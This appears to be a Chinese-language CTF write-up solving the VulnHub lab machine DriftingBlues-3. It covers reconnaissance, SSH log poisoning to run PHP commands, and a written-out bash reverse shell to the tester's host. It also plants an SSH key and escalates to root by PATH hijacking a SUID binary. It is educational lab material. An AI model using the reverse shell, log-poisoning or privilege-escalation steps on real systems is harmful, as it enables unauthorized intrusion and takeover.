前言
同上
靶机安装
下载地址：https://www.vulnhub.com/entry/driftingblues-3,656/
安装：VMware-导入，将网络模式设置为NAT
如果nmap扫不到该靶机地址，还需要进行如下操作
参考：https://blog.csdn.net/asstart/article/details/103433065
在此页面按下e键

进入该页面，并找到光标处

将ro改为 rw signie init=/bin/bash

按下 Ctrl-x 进入命令行界面，输入 ip a 查看网卡ip信息

编辑网卡配置文件 nano /etc/network/interfacers ，可以看到网卡配置文件与实际的网卡名称不一致，因此导致网卡无法正常启动

将其修改为与本地相对应的网卡名称，保存并退出

重启网卡服务 /etc/init.d/networking restart

成功启动，开始进行渗透

信息收集
主机发现
1 | nmap -sP 192.168.x.0/24 |
端口扫描，发现开了22和80端口
1 | nmap -p 1-65535 -A 192.168.x.x |

访问80端口，没有什么特别的跳转地址，只有/tickets.html
进行目录扫描看看
1 | python3 dirsearch.py -u http://192.168.x.x/ -e * |
依次访问，只有/robots.txt和/wp-admin/有东西看，其他都是静态页面，/wp-admin/看起来是wordpress的readme，没什么东西，暂时忽略，访问/robots.txt，提示
1 | User-agent: * |
访问/eventadmins/，可以看到

继续访问http://192.168.x.x/littlequeenofspades.html，查看源代码发现一串base64

两次base64解密后

访问/adminsfixit.php，发现是ssh auth log

随便用个用户连接一下看看日志会不会记录我们的访问

再次访问日志，发现已经记录了我们的用户名

那这是个php文件，我们是不是可以将一句话木马作为用户名登录，让它帮我们执行命令

发现命令可被执行

那么接下来进行反弹shell，将下面命令url编码后传入
1 | echo "bash -i >& /dev/tcp/192.168.x.x/9000 0>&1" | bash |

发现反弹成功

查看home目录，发现用户robertj，但我们是www-data用户，没什么权限
1 | www-data@driftingblues:/home/robertj$ ls -al |
读取了/etc/passwd看看
1 | root:x:0:0:root:/root:/bin/bash |
nologin的作用就是限制某些用户通过ssh登陆到shell上
发现robertj允许ssh登录，查看ssh配置文件/etc/ssh/sshd_config

PubkeyAuthentication yes表示允许ssh公钥登录，并且给出了公钥文件的存放目录
并且通过之前的操作可以知道我们对/home/robertj/.ssh/具有rwx的权限，因此我们通过把公钥文件放入这个文件夹进行登录
使用ssh-keygen -t rsa生成公钥私钥

修改id_rsa.pub文件名为authorized_keys
1 | cat id_rsa.pub > authorized_keys |
复制私钥id_rsa到本机，这里注意要修改一下权限为600
1 | chmod 600 robertj |
不然会出现如下错误
1 | @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@ |
使用私钥登录

查看一下之前看到的user.txt是什么

看到flag1/2，那看来还有一半我们没找到，看看有没有机会提权
linux环境变量提权：https://xz.aliyun.com/t/2767
使用find命令搜索系统上所有的具有suid特殊权限的文件，-perm：利用权限进制搜索

看到一个奇怪的/usr/bin/getinfo文件，运行看看，发现给我们返回了网络信息、host文件信息、系统信息，猜测程序调用了ip addr、cat /etc/hosts、uname -a命令

既然调用了系统命令，那么我们可以编写一个同名文件，比如说ip，如若我们可以添加环境变量，getinfo在调用命令时首先检索环境变量就会调用到我们伪造的ip，执行我们想要的命令，来达到提权的效果，即使用环境变量进行命令劫持提权
1 | cd /tmp |

成功提权

后记
感觉渗透还是有点意思的，需要多积累经验，不过实际的跟靶机的估计也是有差别的，兵来将挡水来土掩